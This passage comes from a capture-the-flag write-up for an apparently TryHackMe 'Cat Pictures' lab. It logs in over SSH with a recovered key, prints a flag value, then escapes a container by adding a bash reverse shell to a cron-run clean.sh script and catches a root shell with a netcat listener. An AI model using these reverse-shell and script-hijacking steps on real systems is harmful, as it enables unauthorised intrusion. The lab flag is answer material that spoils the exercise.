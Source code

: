 - now we are able to ssh into the machine with above rsa key

```
   │   ~/De/TH/cat-pictures ▓▒░ ssh catlover@10.10.3.44 -i id_rsa 
```

- but it is showing as root user. I Dont know how ?

```
root@7546fa2336d6:/# id
uid=0(root) gid=0(root) groups=0(root)
```

- we find the first flag

```
root@7546fa2336d6:/root# cat flag.txt 
7cf90a0e7c5d25f1a827d3efe6fe4d0edd63cca9

```

but this is not the root flag


### Priv Esc

- now as per writeup
```
Next step is to escape the container and gain access to the host system.

A quick [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) scan shows us the following:


/dev/xvda1 20G 7.3G 12G 40% /opt/clean
```

- And /opt/clean has a simple bash script clean.sh that we can edit.


- It looks like this script could be ran as a cron job on the host system to clean up the `/tmp`.

- To test this theory, all we need to do is to modify `/opt/clean/clean.sh` and add a reverse shell payload to it:

```bash
#!/bin/bash

rm -rf /tmp/*
bash -i >& /dev/tcp/10.17.24.189/4444 0>&1
```

- strated a nc listener and we get a shell

```bash
   │   ~/Desktop/THM/cat-pictures ▓▒░ nc -lnvp 4444                                             ░▒▓ ✔ │ 19:20:05   
listening on [any] 4444 ...
connect to [10.17.24.189] from (UNKNOWN) [10.10.3.44] 58498
bash: cannot set terminal process group (2043): Inappropriate ioctl for device
bash: no job control in this shell
root@cat-pictures:~# 

```
